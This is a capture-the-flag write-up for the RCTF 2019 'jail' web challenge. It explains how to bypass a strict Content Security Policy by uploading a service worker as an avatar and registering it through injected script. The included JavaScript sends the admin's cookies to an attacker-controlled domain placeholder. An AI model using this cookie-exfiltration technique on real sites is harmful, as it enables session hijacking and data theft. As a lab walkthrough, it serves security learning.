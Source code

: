 # jail

First hint says `Some HTML5 Web APIs maybe useful: https://developer.mozilla.org/zh-CN/docs/Web/API` which makes it clear that this is some sort of XSS/Content injection challenge.
When we sign up on the website and play with it for a while we can notice two additional hints in the cookies.
```
flag1_is_in_cookie
meta_refresh_is_banned_in_server
```

Website allows us to do three useful things:
* add new messages and view them in separate tab
* change avatar
* send feedback which results in admin viewing one of our posts

When we create any post and view it, we can see that server prepends the following code to it:
```html
<script>
window.addEventListener("beforeunload", function (event) {
  event.returnValue = "Are you sure want to exit?"
  return "Are you sure want to exit?"
})
Object.freeze(document.location) </script>
```

Another important thing is CSP header:
```
sandbox allow-scripts allow-same-origin; base-uri 'none';default-src 'self';script-src 'unsafe-inline' 'self';connect-src 'none';object-src 'none';frame-src 'none';font-src data: 'self';style-src 'unsafe-inline' 'self';
```

Basically, we can inject any script, but it must be loaded from the same domain (or be inline). Unfortunately we can't change client location, because `document.location` is frozen.
We can't also load any external images, fonts, styles etc. We can't even send form to external server. But we can register service workers from the same domain!

And here `change avatar` functionality comes into play. Server allows us to upload any file as an avatar and keeps original extension! (except for .php).
We can upload service worker as an avatar and register it in our message.

avatar.js:
```javascript
self.addEventListener('install', function(e) {
	fetch("https://[YOURDOMAIN]/"+self.location.search)
});
```

message:
```
<script>navigator.serviceWorker.register("https://jail.2019.rctf.rois.io/uploads/[YOUR_AVATAR_FILE].js?"+document.cookie);</script>
```

Now we can use `feedback` functionality and ask admin to visit our post. After several seconds we can see the flag in our server logs.

Flag is `RCTF{welc0me_t0_the_chaos_w0r1d}`